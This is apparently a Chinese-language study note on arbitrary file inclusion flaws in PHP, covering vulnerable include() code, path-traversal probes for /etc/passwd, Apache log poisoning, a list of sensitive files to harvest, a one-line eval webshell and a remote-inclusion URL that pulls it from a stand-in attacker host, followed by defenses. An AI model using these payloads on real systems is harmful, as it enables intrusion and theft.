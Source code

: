 # PHP审计中的任意文件包含漏洞

- 👴'm thinking life's too short its passing by ！
<<[Go Big or Go Home](http://music.163.com/song?id=32166698&userid=262256866)>> 
专辑：Go Big or Go Home 
歌手：American Authors

### [文件包含漏洞](https://github.com/xidaner/Freed0m/blob/master/%E7%AC%94%E8%AE%B0/%E5%BC%80%E5%8F%91/PHP/php%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0/PHP%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0.md)

#### 什么是文件包含

在Python中，经常会通过 `import` 来导入一些公共资源。在PHP中也有类似函数。可以通过文件包含的方式将文件包含进来并直接当成PHP代码执行。

文件包含分为 本地文件包含 和远程文件包含。远程文件包含需要在php.ini中设置allow_url_include = on和allow_url_fopen= on。一般该设置为Off所以很少见。 首先得说明，`文件包含本身并不是问题`在程序中写死的文件包含不会形成漏洞，几乎所有漏洞的成因都是因为相关参数可控

那么文件包含漏洞是怎么产生的呢？

#### 什么是任意文件包含漏洞


在包含文件时候，为了灵活包含文件，将被包含文件设置为`变量`，通过`动态变量`来引入需要包含的文件时，服务器端某些程序对用户提交的参数过滤不当造成，最终造成攻击者进行任意文件包含（`任意文件包含才是漏洞`)。
该程序一般具有以读取方式输出文件内容或下载文件，前者也可以叫做 `任意文件读取` , 两者本质上是一样的。通常在以下情况存在该漏洞。
 - 通过在请求参数中传入文件路径包括相对路径和绝对路径：`download.php?filename=index.html`
 - PHP代码中存在的本地文件包含漏洞，其中关键函数为
    - require()
    - require_once()
    - include()
    - include_once()
- Web目录在根目录(很少见很少见)，导致可以直接下载任意文件，如：http://127.0.0.1/etc/passwd

文件包含漏洞在PHP中居多，而在JSP、ASP、ASP.NET程序中却非常少见。甚至没有漏洞的存在(🙃知道该选谁了吧)

**文件包含分类**

![](img/文件包含漏洞/5.png)




**PHP文件包含的函数**

```
- include()函数：使用include引用外部文件时，只有代码执行到include代码段时，调用的外部文件才会被引用并读取，当引用的文件发生错误时，系统只会给出个警告错误，而整个php文件会继续执行

- require()函数：在php文件被执行之前，php解析器会用被引用的文件的全部内容替换require语句，然后与require语句之外的其他语句组成个新的php文件，最好后按新的php文件执行程序代码

- include_once()函数：使用include_once会在导入文件前先检测该文件是否在该页面的其他部分被引用过，如果有，则不会重复引用该文件，程序只能引用一次

- require_once()函数：功能与 require()相同，区别同样在于当重复调用同一文件时，程序只调用一次
```

#### PHP文件包含的漏洞实现

**本地文件包含**：
  文件包含，被包含的文件，不一定需要是动态脚本语言，包括txt文件在内都会被直接当成动态语言来执行，下面给出一段示例：
**PHP:**
```php
<?php
include('phpinfo.txt');
```

**被包含文件：**
```PHp
<?php 
phpinfo();
```
![](img/文件包含漏洞/1.png)

修改代码为用户可控文件名，如下：
```php
<?php
$test = $_GET['file'];
include($test);
```

![](img/文件包含漏洞/2.png)


**基于apache日志的文件包含--较难实现，为参考思路**

先访问错误的网页让apache服务器记住

```
 /index.php/<?php phpinfo();?>
```
此时包含这个日志文件，让代码执行

![](img/文件包含漏洞/3.png)


> 此处需要日志所在文件夹的权限，才可以成功。

**远程文件包含**

如果PHP的配置选项 allow_url_include为On，才可以加载远程文件，这种漏洞就被叫做远程文件包含漏洞。

在控制file参数时，包含恶意代码的地址。

远程文件包含配置:
```
allow_url_fopen=On(是否允许打开远程文件)
allow_url_include=On(是否允许Include/require远程文件)
```



**了解文件包含漏洞**

要想要成功利用文件包含漏洞，需要满足以下两个条件：
 1. 有include()等函数通过动态变量的方式引入需要包含的文件。
 2. 用户能够控制该动态变量。



#### 文件包含漏洞的探测方法

  **手工检测**：
  1. 在路径中添加abc/../看看是否可以回溯
  如将：`http://127.0.0.1/download.php?filename=xxx.file`
  改成：`http://127.0.0.1/download.php?filename=abc/../xxx.file`
  查看两次下载的文件是否相同。相同则进行以下操作

  2. 确定是否可以下载任意文件：
  `http://127.0.0.1/download.php?filename=../../../../../etc/passwd`


#### **如何利用文件包含漏洞**

**1. 收集信息** 

思路一：下载系统中的文件：
```
- 账号文件： /etc/passwd
- 环境变量文件： /etc/profile
- 系统服务文件： /etc/services
- 主机名和IP配置信息： /etc/hosts 和 /etc/hostname
- DNS客户机的配置文件： /etc/resolv.conf
- MYSQL客户据配置文件： /etc/my.conf
- WebServer配置文件： /etc/httpd/httpd.conf、/etc/httpd/conf/ngnix.conf、/etc/nginx/nginx.conf
```
思路二：扫描或猜测站点可能存在的测试文件、探针文件
```
 - Test.php
 - Phpinfo.php
```

思路三：源码管理站点。收集其中包含的地址信息，配置信息等。 
```
- 可能保存网站部分源码或者工程的子站，如：dev.xxx.com
- 开源站点，如github。sourceforge等
```

**2. 找WEB目录**

- 在web服务器配置中查找
- 猜解常见路径，如：/var/www， /home/www, /home/htdocs/等
- 在脚本文件中，如 `PHPinfo` 中的 `BASEPATH` 等。

**3. 获取地址列表**
- 利用爬虫程序将网站的目录和文件全部爬取下来，整理出URL地址列表

**4. 批量下载脚本**
- 通过自动化脚本程序将URL地址列表中的脚本文件全部下载下来。

**5. 分析已下载的文件**
- 进行代码审计，分析源码中可能存在的各类漏洞，包含 SQL注入、文件包含、命令执行、代码执行、上传漏洞等。


#### 利用教学

1. 本地文件包含，读取敏感文件
访问URL：`http://www.xxx.con/index.php?file=/etc/passwd`
如果目标主机文件存在该文件，并且有相应的权限，则可以读取文件的内容。

2. 远程文件包含shell
如果目标主机 `allow_url_fopen` 是激活,就可以尝试远程包含一句话木马，比如你在 Vultr 上搭建一个零时的虚拟机，然后搭建一个网站服务，在目录中写入 TXT 文件，如:
`<?php eval($_POST[1])?>`

然后访问那个存在远程包含的文件构造URL：
`http://example.com/index.php?file=http://www.attacker.com/shell.txt`

就可以远程获取shell了。

#### 如何防护漏洞

1. 无需情况下设置 `allow_url_include和allow_url_fopen` 为 Off
2. 对可以包含的文件进行限制，可以使用白名单的方式，或者设置可以包含的路径目录，如 open_basedir
3. 建议假定所有输入都是可疑的，尝试对所有输入提交可能存在包含的文件地址，包括服务器本地及远程文件，进行严格的审查，参数中不允许出现 `../`之类的目录跳转符。
4. 严格检测 include 类的文件包含函数中的参数是否外界可控。








